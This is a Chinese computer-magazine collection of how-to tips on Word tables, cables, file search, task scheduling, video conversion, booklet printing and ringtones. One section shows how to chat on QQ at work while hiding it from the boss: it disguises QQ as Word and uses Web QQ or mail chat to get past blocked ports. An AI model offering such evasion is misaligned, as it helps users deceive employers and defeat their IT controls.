为了让课时表更清楚，需要绘制斜线表头。首先将字号变小（如八号字），先插入斜线表头，然后右击执行“组合→取消组合”命令，再适当调整表头文字大小和表头斜线的位置即可。

**小提示：**
修改表格边框的粗细之后，别忘了双击表头斜线，执行“绘图工具→格式→形状轮廓”命令，让表头斜线和表格内边框线保持一致。

### 表格样式——梳妆打扮更美丽

从Word 97到Word 2007，Word表格一直沿用了“黑色、0.5磅”边框线和白色的底纹，我们可以根据具体的表格内容，为表格设置不同的内外边框和底纹，以增强表格的显示效果。

此外，我们还可以通过“设计→表样式”选项列表，利用Word 2007提供的一百多种表格样式，来快速美化表格。

(江苏/姚文连)

## 亮点不可怕，判断问题才是出路

很多经销商常常会信誓旦旦地说些零亮点保证之类的话，但他们所谓的零亮点保证往往只是可以让客户随便挑选，直到挑到一台没有亮点的液晶显示器而已。

笔者正是这样，千辛万苦地挑好了一台没有亮点的显示器，但使用一段时间才发现有些地方出现小面积的游走亮点，时有时无的。换到别人的机器上，或换用别人的显示器都没有任何问题。

随手晃了晃DVI线发现亮点不见了，于是想到用替换法排除故障时并没有检测DVI连接线，看了看机箱后面长达5米左右的连接线和其他线缆缠在一起，决定换一条DVI线，问题便解决了。

### 小编有话说：

DVI线标准最大长度为5米，而缠绕、受力会使本已经接近最大长度的DVI线再一次受到干扰，相比HDMI线，DVI线最大的缺点就是长度的限制，如若跨房间连接电视机等设备，那么HDMI线最大25米的长度是最适合的。

### 电脑线缆最大传输速度与长度

| 线缆类型 | 最大传输速度 | 最大长度 |
| :--- | :--- | :--- |
| IDE线 | 1Gbps | 45cm |
| SATA线 | 1.5Gbps | 2m |
| USB线 | 480Mbps | 5m |
| 网线 | 100Mbps | 100m |
| HDMI线 | 无 | 25m |
| DVI线 | 无 | 5m |

(许宁)

## 想聊就聊谁也挡不住——QQ暗聊独门绝技

小蔡结识了一个MM，在网上十分聊得来。可MM一般是白天上班时间在线，郁闷的是小蔡单位上班时间禁止聊QQ，这可该咋办？其实想聊就聊，终身大事谁也挡不住！电脑高手大夏给他支招了。

### 初试身手：练就隐身大法

大夏：上班聊QQ就怕BOSS出现，但手忙脚乱地关闭QQ窗口是不明智的。我先来传你一招QQ隐身大法。

先安装QQ 2009 (http://im.qq.com/qq/2009/standard_sp1)，打开聊天窗口，单击“隐藏侧边栏”按钮关闭右侧的侧边栏，再将QQ窗口拖宽一些，跟Word窗口差不多大。

双击QQ主面板上的“更改外观”按钮，将“透明度”滑块拖动到最右侧，这样QQ界面就会完全透明啦，此时可以看到聊天窗口和Word已经融为一体，和MM聊天就如同在Word中处理文档。

**小提示：**
如果BOSS细看屏幕还是能发现问题。下载安装QQ隐藏器 (http://www.qqpub.cn/soft/20090205/3622.html)，注意，安装过程中不要选择提供的插件。安装后，只要按下Ctrl+Q就可以彻底隐藏QQ，连时间状态条都没有QQ的身影。

QQHider（下载地址：http://www.datun.com.cn/soft/qqhider/qqhider.rar）是一款可以把QQ完全伪装为Word的小软件。

### 独门妙计：能浏览网页就能聊QQ

小蔡：方法还是蛮好的。可是QQ登不上了，浏览网页却是正常的。怎么办？

大夏：很明显这是单位的网管关闭了QQ端口，无法登录QQ。不过别担心，传你一个秘招：使用网页QQ（Web QQ）聊天。

第一步：登录http://web.qq.com，输入账号和密码，单击“登录”按钮，稍后打开网页版QQ。

第二步：进入Web QQ后，在右侧是好友列表，类似于QQ面板，双击好友出现聊天窗口，可以进行文字聊天，不过不可以进行语音或视频聊天，单击“最小化”按钮会将聊天窗口最小化在页面下方，单击“我的群”可以到群里面聊天。

第三步：登录后如果要查看是否有好友的留言，单击“消息盒子”可以查看，在下方的最小化窗口中也可以看到有聊天窗口在跳动，这说明有好友和群发消息了，双击可查看，如果要查找好友，单击“查找/添加好友”，即可找到根据QQ号码或昵称来寻找添加好友，操作上基本上和软件版QQ类似。

### 终极秘籍：发邮件聊QQ

小蔡：这种方法可真好，不装QQ也可以聊天，也不怕单位封锁QQ了。

大夏：其实在QQ邮箱中也可以聊天，操作也很简单，也更加隐蔽——“我正给客户发邮件呢”。

第一步：登录http://mail.qq.com，用自己的QQ号和密码登录邮箱，然后单击“设置”，再选择“邮箱聊天的设置”下“进入邮箱后自动登录邮箱聊天”选项，最后单击“保存更改”按钮即可。

第二步：先退出邮箱再重新登录，然后单击左侧的“联系人”按钮可以看到自己的好友，将鼠标指向好友姓名会出现浮动面板，单击“跟她聊天”即可出现聊天窗口，此时就可以进行文字聊天。

### 你绝我更绝

小蔡：咱们的招数可真多，但如果BOSS彻底断网，不是就只好干瞪眼了么？

大夏：哈哈，那我们也有办法，如买个包月的无线上网卡、3G上网卡之类。如果只聊天的话，用手机聊QQ更方便一些，具体如何，推荐给你一个老师——《电脑爱好者》，2009年第5期“菜鸟集训营”的《姿势十八般，QQ照样聊》一文，就详细介绍了多种手机聊QQ的方法，怕他断网？就是不给你电脑用，你也能想聊就聊，想追就追。

### 小提示：网页版聊天工具知多少？

其实除了QQ有了网页版之外，现在不少流行的聊天工具都有网页版，下面为大家列举一些网页版聊天工具。

- MSN: http://webmessenger.msn.com/
- Gtalk: http://www.google.com/talk/index.html
- 雅虎通: http://cn.messenger.yahoo.com/webmsgr/index.php

阿里旺旺：登录淘宝网时，选择下方的“同时登录阿里旺旺”，这样只要单击店家或客户就可以启用网页版旺旺进行聊天。

(江苏/周建峰)

## 我要找到你，不管南北东西

男人经常丢三落四，可是我们单位的女人比男人还会丢东西，一会儿莲姐说职称评定文件找不到了，一会儿婷妹说照片找不到了，连唐副总也来问我，如何在电脑里找到刚才下载的文件，让我好不烦恼。你们女人怎么这样呢？

**小提示：** 使用文件通配符，提高搜索效率。问号?可以代替一个字符，星号*可以代替多个字符。例如，搜索所有的Word文档，就可以使用关键词“*.doc”进行搜索。如果要同时搜索某个文件夹中的所有Office文档，则可以同时使用多个关键词（*.doc | *.xls | *.ppt），其中“|”为连接符号，前后需各加一个空格。

### 任务一：查找几年前的职称评审材料

任务描述：莲姐又要评定职称了，想借鉴一下几年前评职称的相关内容，可是她怎么也找不到，只记得所有资料都存放到了一个文件夹中，名称好像包含“职称”一词。

查找方法：执行“开始→搜索→文件和文件夹→所有文件和文件夹”命令，在“全部或部分文件名”框中输入关键词“职称”，单击“搜索”按钮，系统将会开始搜索名称中包含“职称”一词的文件或文件夹。搜索进程所花费的时间，由硬盘中文件多少决定，一般几分钟就能搞定。

### 任务二：查找2008年暑假拍摄的照片

任务描述：婷妹去年暑假去玩的照片，记不得拷贝到哪里了，如何才能找出来？

查找方法：我们知道，数码相机拍摄的图片通常是JPG格式，但输入关键词“*.jpg”查找，结果会非常庞大，这时需要设置更多的查找条件，如文件大小、修改时间等来缩小搜索范围。好比我们去学校找人，如果不但知道性别，还知道年级，找起来就容易很多。

### 任务三：根据内容查找最近下载的文件

任务描述：唐副总参加过一次行业竞赛，现在其他同事要参加，需要借鉴她当时的资料，怎么找也找不到了。

查找方法：直接以“基本功竞赛”、“竞赛”进行搜索，一无所获。由于上级公文一般都是Word文档，同时又包含“基本功竞赛”这个关键词，则可根据文档里的内容来查找该文件。首先在“全部或部分文件名”中输入“*.doc”，然后在“文件中的一个字或词组”中输入“基本功竞赛”，并选择查找的分区，单击“搜索”，经过稍长的时间即可找到。

## 打造22英寸数码相框

刚刚结婚的小Y为了自己大量的旅游照片、婚礼照片发起了愁，究竟怎么样才能把它们安置在自己的新家里呢？冲印成大幅照片不但贵而且小小的一室一厅也没地方挂。买一个数码相框又太小很难看清。冥思苦想后，小Y想出了办法，不如把自己的电脑改造成一个大屏幕数码相框吧。22英寸屏幕的数码相框，听起来就很有面子，说干就干……

### 照片要多张摆放才漂亮

把照片放上桌面当然是最简单的方式，设置下墙纸就可以。但是墙纸不但不能自动更换，并且也不像数码相框的样子啊。在一个桌面摆上十张、二十张照片才不会亏待这22英寸的大屏幕嘛。

第一步：下载并安装桌面照片软件（下载地址：http://www.onlinedown.net/soft/39312.htm）。

第二步：打开桌面照片，点击左上方的加入照片按钮或按下“Ctrl+I”键，加入照片。如果想添加多张照片，那么一次一次添加即可。

第三步：点击上方的放大、缩小按钮缩放照片大小后，拖动照片至理想位置，点击上方半透明按钮使照片变得透明，让效果更自然，要注意照片方向，可以用上方的旋转键调节。

**小提示：** 如何才能让桌面上的照片更有个性？可做一些特效处理，如黑白效果、半透明效果、擦除背景色（也就是使背景透明），包括擦除单色背景和多色背景，您可以选择擦除背景的幅度，幅度越大，擦除得越彻底。同时，您可以对照片做各种形状的裁剪处理，比如可将照片裁剪成心形、月形、云形等。软件上方的众多按钮，可以实现很多特效，依照提示便可把桌面上的照片修剪得更漂亮。

### 增值功能咱样样不缺

照片摆上去了，但是如何实现数码相框的增值功能呢？比如音乐、视频播放我们还得继续研究……

第一步：点击开始菜单→所有程序→Windows Update，打开Windows更新程序。

第二步：在打开的窗口中点击右侧下方的“查看可用Extras”按钮，系统将会自动展开可更新的选项，将“Windows DreamScene（梦幻桌面）预览”选项选中，然后点击安装按钮。

第三步：根据提示完成梦幻桌面的安装，并重新启动电脑。

第四步：右击桌面后点击个性化选项，在打开的窗口中点击下侧的“桌面背景”，然后点击“图片位置”后面的“浏览”按钮，选择需要在桌面上播放的视频文件，就可以播放。

**小知识：** 什么是DreamScene（梦幻桌面）梦幻桌面，是作为Windows Vista Ultimate的增值功能，可以在桌面播放视频。但需要注意两点：第一点是只有Windows Vista Ultimate才可以使用；第二点是它支持的格式有限，只有wmv和mpg的视频才可以哦。

## 实时文件系统的秘密

在2009年第18期的《没有不可能？普通DVD光盘当闪盘用！》中，作者说“类似于USB闪存驱动器”是Windows 7的一种特殊功能。实际上，这种“实时文件系统”，并不只在Windows 7中有，早在Windows Vista里就包含这个功能了，只不过名字叫“Live文件系统”而已。经过测试，在这个文件系统中，删除虽然让文件在光盘里看不见了，但实际的可用空间并没有增加。所以说，这个办法并不能让使用者像闪盘一样随意删除文件并用删除的空间来存放文件。为了方便，大家还是用闪盘或者移动硬盘来充当复制文件的“中转站”比较好，但如果只是为了备份，原文中的方法也是不错的。

**小编点评：** 翟易说的没错，Vista里面就带有这个功能。不过估计过不了多久，很多Vista用户就会换装Windows 7了，毕竟老V太让人失望了点……

## 弄清神秘BIOS，开机出错我不怕

“铃铃铃……”某虹：“您好，哪位？”小菜：“虹哥，电脑启动卡住了，怎么办啊，8点公会集合，迟到要被扣DKP的。”某虹：“大哥，你当我这是24小时服务热线啊？咋不扣死你，每天晚上像上班一样，听说都跑去台湾服务器玩了？到底是“卡”在哪里了，有木有提示啊？”小菜：“说不清，给你发彩信了。”某虹：“你能把屏幕拍全吗？就这么一点提示，有很多可能啊。不过也好，趁着这个机会都给你说说吧，省的下次再打我电话。”

### 错误信息读仔细，确定问题是关键

开机启动后会经过一个黑屏白字的画面，这个叫做开机信息。有些主板开机后会出现厂商的LOGO，这时要按TAB键跳过，才能看到开机信息。开机信息自上而下共分为4个部分：

A. 主板信息及BIOS版本。上面的部分是BIOS的厂商，一般有Phoenix，Award（已被Phoenix收购）、AMI三家，下面的部分是BIOS的版本和发布日期。凭借这几条我们就可以查看BIOS版本以便确定BIOS是否太老旧需要更新。

B. 硬件信息部分。在这里可以看到CPU的型号、主频、内存的大小、光驱、硬盘的信息等数据。别人问你机器的配置，你就不会不知道了。

C. 错误提示部分。这就是我们今天的主角，格式一般为“问题位置+问题描述（+解决方法）”，仔细的阅读便能对故障有一个很好的初步判断。

D. 提示信息部分。一般来说都会写着“Press DEL/F1（按DEL键进入设置或F1键跳过错误）to……”等等信息，可以通过这部分高亮的提示信息按相应按键（DEL或者F1）来进入BIOS设置界面或者跳过错误。

(许宁)

## 玩转任务计划，效率成倍提升

阿峰是个SOHO，平时就是在家为报社写稿赚钱，另外还开了个网店……总的来说，生活很自由，收入也可以。很多人都具备做SOHO的能力，却无法坚持下去，其主要原因就是缺乏自制力。可阿峰是怎么坚持下来的呢？原来他的电脑会自动化工作，这样不但提高了工作效率，在某种程度上还能监督自己按照计划做事。

### 实例：音乐准时响起来

阿峰一天的安排：6:55打开电脑→7:00自动放音乐→7:30拨号上网→7:35收取邮件→7:40打开指定网页→8:00打开QQ→11:00打开下载工具→17:00自动休眠……看上去有些奇妙，电脑是怎样自动工作的呢？其实搞定Windows的“任务计划”功能，一切就能轻松实现。

第一步：单击“开始→程序→附件→系统工具→任务计划”打开任务计划窗口，双击“添加任务计划”出现对话框，单击“下一步”。

第二步：在程序列表中选择音乐播放软件，这里使用的是千千静听，如果没有找到所需要的程序，可单击“浏览”按钮选择程序的执行文件。

第三步：单击“下一步”输入计划的名称，并设置执行该任务的周期（每天、每周或每月等），再单击“下一步”设置执行计划的时间。

第四步：单击“下一步”输入用户名和密码，最后单击“完成”即可成功添加任务计划。

第五步：打开千千静听，单击“添加”按钮打开爱听的歌曲，单击“主菜单”按钮选择“千千选项”出现对话框，切换到“播放选项”，选择“程序启动时自动播放”，再单击“全部保存”按钮。这样执行计划任务时打开千千静听即会播放里面的歌曲。

### 扩展应用：让软件自动执行任务

任务计划可以让程序在设定的条件自动运行，那么让程序打开后，自动执行相应的任务是计划继续完成的关键。下面介绍一下常用软件的自动化设置。

#### Windows自动拨号上网

进入“控制面板”的“网络连接”，右击创建的拨号连接，选择“属性”出现对话框，取消选择“连接时显示连接进度”和“提示名称、密码和证书等”。对于包年上网的用户来说，可以将拨号连接的快捷方式复制到“开始→程序→启动”中，这样开机后就会自动拨号上网。

#### 快车打开就下载

选择菜单“工具→选项”，单击“基本设置”，选择“启动快车后自动开始未完成的任务”，这样快车在自动打开后就会开始下载。

#### OutLook Express自动收发邮件

选择菜单“工具→选项”，切换到“常规”选项，选择“启动时发送和接收邮件”，这样在指定时间启动后就可以发送和接收邮件。

#### 傲游自动打开指定网站

首先在傲游的收藏夹中创建一个新文件夹（如“常用网站”），并且将常用网站添加到收藏夹的该文件夹中，然后选择菜单“工具→傲游设置中心”，切换到“常规选项”，选择“傲游启动时”下的“打开收藏中的指定文件夹”，再单击“浏览”按钮选择常用网站，最后单击“应用”按钮，这样只要启动傲游就会打开该文件夹。

### Vista功能更加丰富

在Vista中，任务计划工具做了很大的增强，我们可以计划的事情更多，操作更方便。

Vista的计划任务最强大改进在于任务的触发条件更丰富，例如当系统进入空闲状态时，当CPU达到设定的使用量时，磁盘空间达到一定程度时，网络流量达到某种程度时，即可启动计划任务。而XP只能根据时间或者登录状况启动任务。这样，在Vista中我们可以很方便地设置系统空闲时启动磁盘碎片整理，或者在磁盘空间快满时提醒我们，或者网络空闲时断网等特殊任务。

(江苏/周建峰)

## 视频压缩，一边看杂一边转

每天上班下班的地铁上，常常会看见形形各异的人使用MP4低头看着电影、视频。虽然MP4便携好用，但是适合它的片源倒是很成问题。下载很难找到合适的格式，自己压缩又麻烦又耗时，关键是压缩的时候还不能干别的事情。

PotPlayer是原KMPlayer作者加盟新公司后编写的一款非常强大的播放软件，它的最主要特色在于播放高清电影，并可以很好的兼容硬解码。不过，大家不知道的是，它还可以作为视频压缩的工具。

第一步：下载并安装PotPlayer（中文版下载地址：http://www.onlinedown.net/soft/42170.htm）。

第二步：启动PotPlayer后，按下Ctrl+O键，打开并播放电影。右击画面，选择“视频设置→捕获→录制视频”，或者直接按Alt+C键打开录制视频窗口。

第三步：点击在最上方的保存位置右侧的“…”按钮，选择一个比较大的盘，在输出设置中选择文件格式（一般为MEPG4 MP4），视频编码（一般为MEPG4），分辨率参照自己的MP4说明书选择（一般为480×272），帧数选择为30。

第四步：设置完成后，单击“开始”按钮开始转录。这时我们就可以继续播放电影，当电影播放完毕时，压缩自然也就完成了。

**小提示：** 如何剪裁掉片头片尾

在第四步点击“开始”按钮前快进或者拖拽进度条把片头跳过，再开始录制；影片播放到片尾前点击已经变成退出提示的“开始”按钮。

**小提示：** 小编有话说：由于Potplayer没有官方中文版，我们一般使用的都是汉化版，所以当它提示升级时，不要点击，否则会使汉化版Potplayer变成韩文版。

(许宁)

## 工作生活有规律，全靠“秘书”来提醒

曾经，有一件重要的事放在我面前，我忘了去做，等我想起来的时候我才后悔莫及。人世间最痛苦的事莫过于此。如果上天能够给我一个再来一次的机会，我一定会记着安装一个“秘书”软件。

相信很多工作繁忙的办公族，因废寝忘食地工作或者游戏，而忘记了一些特别重要的事情，而引起无限的追悔。其实，借助一些具有记事、备忘和提醒等功能的秘书软件，可以让我们的工作和生活忙而不乱，不再容易忘记任何一件重要或紧急的事情，就好像是聘请了一位真正的秘书。

### 日历升级，记事更简便

在很多白领的办公桌上，都会有一个工作台历，用来记载每天、每周甚至每个月的工作事项和行程安排，非常方便。但对于经常要离开办公室或出差在外的朋友，要查看工作台历就不那么方便了。这时，我们可以借助一些具有电子记事功能的日历软件，如ABM阳光日历程序（下载地址：http://down.tech.sina.com.cn/content/8490.html），来代替普通的工作台历，记载各种工作和生活事项，以方便我们有条不紊地安排自己的时间。

**小提示：** 将ABM阳光日历程序所在的文件夹复制到移动盘或发送到网络空间中，不管我们身在何处，都可以轻松地打开日历查看其中记载的各种信息。

此外，对于经常要同OutLook Express收发邮件的朋友，则可以执行“工具→选项→常规”命令，勾选“新邮件到达是发出声音”项，设置合适的检查新邮件的间隔时间，以防延误重要的邮件答复。而对于每天都使用QQ的朋友，还可以右击QQ主界面中自己的头像，执行“网络备忘录”命令，在QQ网络备忘录窗口中，及时记载一些重要的日程安排事项，必要时还可以设置提醒功能，以防误事。

**小提示：** 对于工作繁忙、应酬较多的朋友，应当逐步养成随时随地记事的习惯，只要是接到要求我们按时完成的任务或参加的活动，都应该及时记载下来，以便于统筹安排自己时间，力求忙而不乱。

### 桌面便签，有事你就贴

很多白领都有使用便签的习惯，将每天或每周的紧急或重要工作，都写在一张张便签上，并粘贴到工作台的隔板甚至显示器的角上，以便时刻提醒自己，防止延误工作进度。这里，我们可以通过一款优秀的Atnotes桌面便签式提醒软件（下载地址：http://download.it168.com/02/0217/13233/13233_4.shtml，汉化包：http://www.newhua.com/soft/9120.htm），来轻松实现桌面便签式记事和定时提醒等秘书功能。

使用Atnotes软件，还可以向局域网中其他已经安装Atnotes软件的同事发送便签，以便对更多人进行提醒。但在默认情况下，Atnotes软件不能接收来自局域网的便签，需要右击程序图标，执行“设置→网络→外来便签→接收”命令，方可接收来自局域网的提醒便签。

**小提示：** 当然，使用手机的日历程序，记载各种工作事项并设置闹钟提醒操作也很方便。如果要同时提醒更多的同事或朋友，则可以借助“飞信”的群发功能。

### 劳逸结合，健康好身体

对于经常要在电脑前加班加点工作的人，时常忘记了时间，耽误了休息和吃饭，我们可以借助一款名为“眼睛卫士”的提醒软件（下载地址：http://www.anxz.com/down/878.html），来督促我们注意劳逸结合。

**小提示：** 眼睛卫士同时还是一款非常实用的定时关机软件，不但提供了常见的定时关机或休眠功能，而且还具有独特的闲置关机或休眠功能。

### 网络大补贴：其他值得提醒的软件

- CJC提醒小精灵（下载地址：http://download.pchome.net/home/remind/download-21344.html）
  特点：如果你经常需要关心朋友或客户的生日，CJC提醒小精灵就是不错的选择。
- 事件提示精灵（下载地址：http://www.onlinedown.net/soft/42671.htm）
  特点：可以存储大量的直观的事件提醒，非常适合提醒比较多的朋友使用。
- 雪狐提醒簿（下载地址：http://www.skycn.com/soft/11160.html）
  特点：功能丰富、界面美观的提醒软件，适合办公人士使用。

(江苏/姚文连)

## 小册子完美打印之终结者

编辑点评：第10期办公栏目有一篇文章：《用Word打印小册子的三种方法》，介绍了将文档正反两面打印后装订成册的方法，而且一下介绍了三个方法，想来也够大家使用了！不料一石激起千层浪，很多在工作中接触过小册子打印的读者，纷纷来信指出原法的不足，并推荐自己“独”技。方法之多，一只手掌都数不过来了。编辑仔细推敲这些方法，确实各有独特的地方，有的简单易用，有的可适合各种情况。因而想推出“用Word打印小册子的另外三种方法”的文章。但如果再来三种方法该如何称呼呢？领导指示：打印小册子的方法介绍就此终结吧！因此，改名为“小册子完美打印终结者”，并分1、2、3集，以供大家根据需要选择相应的方法。

## 终结者 T-800

在WPS文字的页面设置中，已经有了小册子打印的完美解决方案，就是“书籍折页”功能！这里以WPS文字2009为例，双击横向标题，打开“页面设置”面板，如果你想打印成16开的小册子，那么在“纸张”选项卡中将“纸张大小”设置为8开纸，然后切换到“页边距”选项卡，在“页码范围→多页”中选择“书籍折页”（见图1），确定退出。（bntrees）

小提示：如打印时，如果打印机不支持双面打印，也不支持所设的纸张大小（如打印16开的小册子，需要打印机支持8开纸），则可以在打印时在“按纸型缩放”下拉菜单中选择“16开”，打印出来的小册子会自动缩小成16开纸大小，对折装订后就成了需要的大小了。

## 终结者 T-1000

Word提供的“书籍折页”功能是制作可以像书一样翻看的小册子的最简单的好方法。很多毕业论文都是通过此方法快速打印装订出来的。首先打开“文件→页面设置→页边距”选项卡（以Word 2003为例），在“多页”框中选择“书籍折页”（见图2）。Word会自动将文档设为横向，在“内侧”和“外侧”框中，键入或选择页边距内侧和外侧的间距。如果为满足装订的要求，折页需要更大的间距，请在“装订线”框中键入或选择所需间距。在“每册中页数”框中，选择希望单个小册子包含的页数。如果文档中的页数超过了为小册子选择的页数，Word将文档作为多个小册子来打印。在“页面设置”对话框中，选择其他所需选项，单击“确定”按钮。

创建小册子的时候，最好从一个新的空白文档开始，也可以为原有文档添加书籍折页，但可能需要重新调整一些版面元素。（贾培武）小提示：Word打印预览是顺序查看页面，不会按照打印出的小册子排列页面。

## 终结者 T-X

本人所在的学校经常要打印各种小册子，本人为此还专门编印了一本《一面两版打印页码顺序》小册子，供同事参考。现将其中一些经验介绍给大家。

## 小册子打印关键要点

一面两版打印，要分两种情况，一种是同号打印，即原文档和打印纸张尺寸同号，如将2页A4的原文档打印在A4纸张的同一面上；另一种是异号打印，即原文档和打印纸张尺寸不同号，尺寸小一号的文档打印在大一号纸张上，如将2页A5的原文档打印在A4纸张的同一面上。

小册子装订方法有两种，一种是中缝装订，一种是边线装订，用边线装订法打印时，需要按原文档页码顺序每4页打印在1张纸的正反面上，依次编排打印。

原文档的页码编排，大多数都是从1、2、3起直至页码终止。但本单位还经常遇见原文档第一页不排页码，即第一页页码为0，从第二页开始排1，顺序2、3直至页码终止。

## 打印时的页码编排

下表是以原文档页码16页，第一页页码分别为1或0为例时的页码编排顺序，其余页码编排以此类推。当原文档为大型文档时，需要编排专门的打印页码顺序表，以免打印时出错。

### 文档设置打印实例

当小册子要求装订成A5的幅面时，可用A4纸张打印后横向左右折叠成2页。现以作者使用的惠普LaserJet1010打印机为例介绍。

文档设置打印，按文档设置的不同及打印选择的不同，主要有3种样式。

1. A4文档打印成A5小册子，打印后为横排效果

依次单击“文件→页面设置”，切换到“纸张→纸张大小”，选择“A4”，再切换到“页边距→方向”，选择“纵向”，单击“页码范围→多页”，在右边的选择框内选择“拼页”，最后单击“确定”。接着用鼠标依次单击“文件→打印”，在“页面范围→页码范围”的右边框中，按前述页码编排的方法填入，在“缩放→每页的版数”右边的下拉列表中选择“1版”，在“按纸张大小缩放”右边的下拉列表中选择“无缩放”或“A4”，最后单击“确定”。

小提示：由于打印机进纸存在的问题，打印小册子时会出现左右版面有偏差的现象。可在文档页面设置时，左比右页边距少5mm，如左页边距15mm，右页边距20mm。

2. A4文档打印成A5小册子，打印后为纵排字号缩小效果

依次单击“文件→页面设置”，切换到“纸张→纸张大小”，选择“A4”，再切换到“页边距→方向”，选择“纵向”，最后单击“确定”。接着用鼠标依次单击“文件→打印”，在“页面范围→页码范围”的右边框中，按前述页码编排的方法填入，在“缩放→每页版数”右边的下拉列表中选择“2版”，在“按纸张大小缩放”右边的下拉列表中选择“A4”，最后单击“确定”。

3. A5文档打印成A5小册子，打印后为纵排效果

依次单击“文件→页面设置”，切换到“纸张→纸张大小”，选择“A5”，再切换到“页边距→方向”，选择“纵向”，接着用鼠标依次单击“文件→打印”，在“页面范围→页码范围”的右边框中，按前述页码编排的方法填入，在“缩放→每页版数”右边的下拉列表中选择“2版”，在“按纸张大小缩放”右边的下拉列表中选择“无缩放”或“A4”，最后单击“确定”。

小提示：对于后两种，有时常因误操作没有设置“2版”，而在打印时出现问题。注意先在“缩放→每页版数”右边的下拉列表中选择“2版”，然后再进行其他的设置。（王开寿）

表格：中缝装订页码编排（原文档页码1-16，第一页为1）

| 张数 | 第1面 |   | 第2面 |   |
| :--- | :---: | :-: | :---: | :-: |
|      | 左    | 右  | 左    | 右  |
| 1    | 16    | 1   | 2     | 15  |
| 2    | 14    | 3   | 4     | 13  |
| 3    | 12    | 5   | 6     | 11  |
| 4    | 10    | 7   | 8     | 9   |

表格：边线装订页码编排（原文档页码1-16，第一页为1）

| 张数 | 第1面 |   | 第2面 |   |
| :--- | :---: | :-: | :---: | :-: |
|      | 左    | 右  | 左    | 右  |
| 1    | 4     | 1   | 2     | 3   |
| 2    | 8     | 5   | 6     | 7   |
| 3    | 12    | 9   | 10    | 11  |
| 4    | 16    | 13  | 14    | 15  |

表格：中缝装订页码编排（原文档页码0-15，第一页为0）

| 张数 | 第1面 |   | 第2面 |   |
| :--- | :---: | :-: | :---: | :-: |
|      | 左    | 右  | 左    | 右  |
| 1    | 15    | 0   | 1     | 14  |
| 2    | 13    | 2   | 3     | 12  |
| 3    | 11    | 4   | 5     | 10  |
| 4    | 9     | 6   | 7     | 8   |

表格：边线装订页码编排（原文档页码0-15，第一页为0）

| 张数 | 第1面 |   | 第2面 |   |
| :--- | :---: | :-: | :---: | :-: |
|      | 左    | 右  | 左    | 右  |
| 1    | 3     | 0   | 1     | 2   |
| 2    | 7     | 4   | 5     | 6   |
| 3    | 11    | 8   | 9     | 10  |
| 4    | 15    | 12  | 13    | 14  |

## 隐藏分区 看我另辟蹊径

最近看了2009年第8期《隐藏分区 看我剑走偏锋》这篇文章。“设备管理器”里面的“通用卷”并没有显示盘符，虽然它与“我的电脑”中显示分区次序相同，但是对我安装了Windows和Linux双系统的硬盘来说，想隐藏Windows下的一个分区可不是那么容易。

由于Linux分区的特殊性，设备管理器的存储卷中总共显示了10个通用卷，而我只有四个Windows分区（C，D，E，F），如果我想隐藏F盘的话该怎么办呢？

其实还有更简单可靠的方法，按下Win+R组合键，弹出“运行”对话框，输入diskmgmt.msc，在“磁盘管理”中可以看到Windows的四个分区和不能被识别的Linux分区。右击需要隐藏的分区，选择“更改驱动器名和路径”，然后选择“删除”即可。这样该驱动器的盘符就被删除了，但是分区包含的文件依然保留。当需要重新启用该分区时，右击被隐藏的分区，选择“添加”，为隐藏的分区添加一个盘符即可。

小编点评：这样能够在资源管理器看不到分区，但通过一些软件还是可以发现这些分区，不过对于一般的隐藏应用足够了。

## 热门铃声立等可取

目前，手机铃声正在大肆“泛滥”，有些同学天天以折腾手机铃声为乐。手机铃声已经不只是来电的提示音了，而成为了一种新兴的无厘头文化。一段电影原声、一段视频片段、一首热门歌曲当做手机铃声，看似不是一件容易的事情。但实际上把这些声音提取出来并不是非常难的事情，跟着我们一步一步来吧。

## 听到了，就把它抓出来

经常会碰到网页上、在线视频上有一段好听的音乐或者声音，如何才能把它们保存为文件呢？可能有大虾会说到分析源文件找到文件真实地址就好了。但是对于我们这些菜鸟来说，这又何尝不是一种难于上青天的方法呢？录制，才是最简单的解决之道。

- 第一步：调整声音选项录制到混音器输出的声音。
- 第二步：点击“开始→所有程序→附件→录音机”，打开录音机和需要录制的声音，“1、2、3”点击“开始录制”按钮，等待播放完毕点击“停止录制”按钮。
- 第三步：保存录制好的音乐文件（文章中保存为铃声wma）。

这样一份原材料就基本采集完成了，为什么要叫原材料呢？一来，你录制的声音是完整的，铃声一般要截取高潮部分；二来，录制时很可能为了录得完整而多出空白，这个时候我们也需要裁减才行。

## 加工原材料学问大

手机铃声听起来简单，学问可真是不小。歌曲的前奏部分不能当做铃声，节奏过于舒缓；歌曲的高潮部分当做铃声也要注意音量大小。怎样才能把我们刚刚得到的原材料加工成合格的铃声呢？

## 专业软件，功能强大

- 第一步：下载Goldwave（下载地址：http://www.onlinedown.net/soft/5236.htm）并解压。
- 第二步：打开Goldwave，点击左上方“打开”按钮，载入刚刚录制好的原材料“铃声.wma”，稍等数秒后，软件上会显示出红红绿绿的波形图。
- 第三步：调整左右两侧调节线截取歌曲高潮部分，并点击上方黄色箭头试听。
- 第四步：点击上方“剪裁”按钮（或按下Ctrl键+T键），这样剪裁部分就完成了，接下来我们进行音量的调整。
- 第五步：点击上方效果→音量→更改音量，在弹出的窗口中点击“加号”按钮调整至3.5左右，此刻的音量增大为150%，一般这样就可以了，点击“绿色箭头”按钮，试听一下没有爆音即可点击确认。
- 第六步：点击上方保存按钮，稍等片刻我们的原材料就加工完毕了。

## 利用网站，方便快捷

- 第一步：打开浏览器，敲入网址http://www.audiko.net，进入点击主页图片中的Upload（上传）按钮，上传电脑中的“铃声.wma”。
- 第二步：等到上传完毕后，会出现波形画面，其中深蓝色部位表示你所选取的铃声片段，你可以点击图片左上角的播放按钮（黑色三角号）进行试听，在试听的过程中，你可以随时的移动深蓝色部位，来选取歌曲的高潮部分。在深蓝色边缘拉动深蓝色部位的宽度，选取合适的时间。
- 第三步：为了使声音过度自然，点击深蓝色部位的两个选项按钮：fade in（淡入）和fade out（淡出）。
- 第四步：一切编辑完毕后点击Creat ringtone（制作我的铃声）来完成操作。填写表格，一些歌曲的信息，分别是谁的歌、歌名、所在专辑和曲风。填写完毕点击Done（完成）。
- 第五步：点击Download mp3 ringtone on desktop下载到桌面。

到这里我们就成功的编辑制作好了铃声，看起来很简单吧，接下来之需要把铃声拷贝到手机上，就可以听见亲手制作的铃声了。

## 不同的页面，不同的水印

我是一名教师，也是CFan的忠实读者。CFan贴近读者，提供大量的实用技巧，无论是高手还是新手，都能从中受益。希望CFan再接再厉，永成为电脑爱好者的贴心密友。

